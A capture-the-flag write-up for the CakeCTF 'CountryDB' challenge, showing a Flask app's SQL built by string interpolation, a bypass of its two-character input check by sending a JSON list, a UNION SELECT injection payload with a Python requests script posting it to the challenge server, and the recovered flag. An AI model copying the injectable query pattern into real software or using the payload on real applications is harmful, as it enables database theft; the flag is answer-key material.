

# CountryDB 

The challenge consists of a basic web application which allows to insert country code and returns the associated country name:



Let's look at the main application source code files:

`init_db.py`

```python
import sqlite3
import os

FLAG = os.getenv("FLAG", "FakeCTF{*** REDACTED ***}")

conn = sqlite3.connect("database.db")
conn.execute("""CREATE TABLE country (
  code TEXT NOT NULL,
  name TEXT NOT NULL
);""")
conn.execute("""CREATE TABLE flag (
  flag TEXT NOT NULL
);""")
conn.execute(f"INSERT INTO flag VALUES (?)", (FLAG,))

# Country list from https://gist.github.com/vxnick/380904
countries = [
    ('AF', 'Afghanistan'),
    ...
```

As we can see there is a table in the database containing the flag, almost sure that we need to obtain it through a sql injection

`app.py`

```python
#!/usr/bin/env python3
import flask
import sqlite3

app = flask.Flask(__name__)

def db_search(code):
    try:
        with sqlite3.connect('database.db') as conn:
            cur = conn.cursor()
            sql = f"SELECT name FROM country WHERE code=UPPER('{code}')"
            print(sql)
            cur.execute(sql)
            found = cur.fetchone()
        return None if found is None else found[0]
    except:
        flask.abort(400, f"INVALID INJECTION {sql} ")

@app.route('/')
def index():
    return flask.render_template("index.html")

@app.route('/api/search', methods=['POST'])
def api_search():
    req = flask.request.get_json()
    print(f"req: {req}")
    if 'code' not in req:
        flask.abort(400, "Empty country code")

    code = req['code']
    print(code)
    print(len(code))
    
    if len(code) != 2 or "'" in code:
        flask.abort(400, "Invalid country code")
    
    name = db_search(code)
    if name is None:
        flask.abort(404, "No such country")

    return {'name': name}

if __name__ == '__main__':
    app.run(debug=False)
```

The application, in order to display the country associated to each code, requests the code itself through the `/api/search/` endpoint and performs some checks on the provided input:

```python 
if len(code) != 2 or "'" in code:
```

length of provided code should == 2 and no apostrophe should be inside it. So basically you cannot provide strings different from a country code (e.g. IT).

However this condition can be easily bypassed because there is no check on what `code` type actually is:

```python
>>> code = ["I can write anything i want", "and code length will be always two"] 
>>> len(code)
2
```

In python the length of an array is determined by the number of elements in the array itself:
we can send an array of two elements in order to construct the sql injection payload.

At this point, since we know how to bypass the check and our input will reach the `db_search(code)` function, we just need to understand how to set a valid payload.

```python
sql = f"SELECT name FROM country WHERE code=UPPER('{code}')"
```

The problem of sending an array is that we will need to escape the `[ ]` inside the `UPPER()` function, while at the same time it is necessary to close the `UPPER` function's parentheses ` ) `; after some attempts:

```json
{
    "code": ["", ") UNION SELECT * FROM flag --"]
}
```

which results in the query string:

```sql
SELECT name FROM country WHERE code=UPPER('['', ') UNION SELECT * FROM flag --']')
```

Note: the payload must be sent through an explicit post request, because the application input form is now allowing the user to insert a string whose length is greather than two:

```python
import requests

url = "http://countrydb.2023.cakectf.com:8020/api/search"

sql_injection = {
    "code": ["", ") UNION SELECT * FROM flag --"]
}

req = requests.post(url, json=sql_injection)

print(req.json())
```


    CakeCTF{b3_c4refUl_wh3n_y0U_u5e_JS0N_1nPut}
